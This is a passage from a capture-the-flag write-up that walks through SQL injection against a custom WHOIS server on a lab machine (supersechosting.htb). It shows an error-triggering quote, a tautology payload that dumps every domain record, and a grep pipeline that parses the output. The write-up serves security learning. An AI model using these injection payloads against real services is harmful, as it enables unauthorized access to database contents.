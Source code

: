 
I’ll add the following to my `/etc/hosts` file:

    
    
    10.10.10.155 supersechosting.htb www.supersechosting.htb ns1.supersechosting.htb whois.supersechosting.htb
    

#### SQLI in WhoIs Server

Before I moved on, I realized that the server was advertising a custom name:

    
    
    SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
    

That’s strange. It also shows it’s running SQL. I wonder if I can inject into
it? I’ll try a `'`:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb'"
    % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
    % for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
    1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''supersechosting.htb'') limit 1' at line 1
    

SQL error. nice.

Ok, I’ll try to add to the end to make it true for everything. There’s also a
hint in the error message above, suggesting there’s a `) limit 1` following my
input.

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb') or '1'='1'#"
    

When I run the above, whois information for several sites dump out. To process
it all, I’ll write a `grep` that pulls out any domains, translate them to
lowercase, and unique them:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb') or 1=1#" | grep -oiP '[\w\.]{1,50}\.htb' | tr 'A-Z' 'a-z' | sort -u
    justanotherblog.htb
    ns1.supersechosting.htb
    pwnhats.htb
    rentahacker.htb
    supersechosting.htb
    whois.supersechosting.htb
    www.supersechosting.htb
    

More to add to `/etc/hosts`.

I can go further with this sqli (and will in Beyond Root). But I’ve got what I
need for now.

### DNS - TCP/UDP 53
